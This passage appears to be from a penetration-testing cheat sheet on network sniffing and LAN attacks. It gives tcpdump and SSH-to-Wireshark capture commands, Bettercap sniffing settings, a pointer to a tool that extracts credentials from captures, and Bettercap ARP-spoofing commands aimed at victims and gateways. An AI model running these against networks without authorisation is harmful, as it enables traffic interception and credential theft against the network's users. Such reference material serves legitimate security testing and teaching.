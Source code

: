 ```
Sniffing you can learn details of IP ranges, subnet sizes, MAC addresses, and hostnames by reviewing captured frames and packets. If the network is misconfigured or switching fabric under stress, attackers can capture sensitive material via passive network sniffing.

If a switched Ethernet network is configured properly, you will only see broadcast frames and material destined for your MAC address.

### TCPDump

```bash
sudo tcpdump -i <INTERFACE> udp port 53 #Listen to DNS request to discover what is searching the host
tcpdump -i <IFACE> icmp #Listen to icmp packets
sudo bash -c "sudo nohup tcpdump -i eth0 -G 300 -w \"/tmp/dump-%m-%d-%H-%M-%S-%s.pcap\" -W 50 'tcp and (port 80 or port 443)' &"
```
```
One can, also, capture packets from a remote machine over an SSH session with Wireshark as the GUI in realtime.

```
ssh user@<TARGET IP> tcpdump -i ens160 -U -s0 -w - | sudo wireshark -k -i -
ssh <USERNAME>@<TARGET IP> tcpdump -i <INTERFACE> -U -s0 -w - 'port not 22' | sudo wireshark -k -i - # Exclude SSH traffic
```
```
### Bettercap

```bash
net.sniff on
net.sniff stats
set net.sniff.output sniffed.pcap #Write captured packets to file
set net.sniff.local  #If true it will consider packets from/to this computer, otherwise it will skip them (default=false)
set net.sniff.filter #BPF filter for the sniffer (default=not arp)
set net.sniff.regexp #If set only packets matching this regex will be considered
```
```
### Wireshark

Obviously.

### Capturing credentials

You can use tools like [[https://github.com/lgandx/PCredz|https://github.com/lgandx/PCredz]] to parse credentials from a pcap or a live interface.

## LAN attacks

### ARP spoofing

ARP Spoofing consist on sending gratuitous ARPResponses to indicate that the IP of a machine has the MAC of our device. Then, the victim will change the ARP table and will contact our machine every time it wants to contact the IP spoofed.

#### **Bettercap**

```bash
arp.spoof on
set arp.spoof.targets <IP> #Specific targets to ARP spoof (default=<entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
```